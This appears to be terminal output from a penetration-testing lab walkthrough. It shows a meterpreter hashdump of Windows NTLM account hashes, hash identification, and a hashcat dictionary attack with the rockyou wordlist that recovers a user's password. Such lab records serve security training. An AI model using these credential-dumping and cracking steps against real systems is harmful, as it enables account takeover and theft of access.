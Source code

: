 meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
---
hash-identifier
HASH: ffb43f0de35be4d9917ac0cc8ad57f8d

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
---


hashcat --help | grep NTLM
   5500 | NetNTLMv1                                        | Network Protocols
   5500 | NetNTLMv1+ESS                                    | Network Protocols
   5600 | NetNTLMv2                                        | Network Protocols
   1000 | NTLM                                             | Operating Systems

hashcat --force -a 0 -m 1000 hashes /usr/share/wordlists/rockyou.txt
hashcat (v5.1.0. starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i7.6820HQ CPU @ 2.70GHz, 1024/2934 MB allocatable, 1MCU

Hashes: 3 digests; 2 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.                                                                                                   
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=1000 -D _unroll'                                      
* Device #1: Kernel m01000_a0.pure.21f31112.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 3 secs

31d6cfe0d16ae931b73c59d7e0c089c0:                
ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22        
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: NTLM
Hash.Target......: hashes
Time.Started.....: Wed May 27 14:58:56 2020 (7 secs)
Time.Estimated...: Wed May 27 14:59:03 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2165.1 kH/s (0.20ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 2/2 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 10201088/14344385 (71.12%)
Rejected.........: 0/10201088 (0.00%)
Restore.Point....: 10200064/14344385 (71.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0.1 Iteration:0.1
Candidates.#1....: alread852 -> alphasarto11

Started: Wed May 27 14:58:43 2020
Stopped: Wed May 27 14:59:04 2020

